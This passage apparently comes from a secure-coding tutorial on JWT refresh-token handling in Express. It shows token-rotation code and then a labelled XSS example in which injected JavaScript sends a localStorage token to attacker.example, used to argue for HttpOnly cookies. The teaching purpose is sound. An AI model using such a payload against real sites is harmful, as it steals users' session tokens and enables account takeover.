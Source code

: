 ```js
      issuer: process.env.TOKEN_ISSUER,
      audience: process.env.TOKEN_AUDIENCE
    });
    refreshStore.set(newJti, { username: payload.sub });

    const newAccessToken = jwt.sign({ sub: payload.sub, role: row.role }, process.env.ACCESS_TOKEN_SECRET, {
      algorithm: 'HS256',
      expiresIn: process.env.ACCESS_TOKEN_EXPIRES,
      issuer: process.env.TOKEN_ISSUER,
      audience: process.env.TOKEN_AUDIENCE
    });

    res.cookie('refreshToken', newRefreshToken, { httpOnly: true, sameSite: 'Strict', secure: false, maxAge: 7*24*60*60*1000 });
    res.json({ accessToken: newAccessToken });
  });
});
```

### Example: Showing how `localStorage` token theft happens (don’t run on production)

In a vulnerable app that stores a token in `localStorage`, an XSS payload could read:

```js
// attacker JS injected via XSS
fetch('https://attacker.example/exfil', {
  method: 'POST',
  body: localStorage.getItem('token')
});
```

This demonstrates why `localStorage` is unsafe for long-lived secrets. Use HttpOnly cookies for refresh tokens and keep access tokens short-lived and preferably in memory.

---

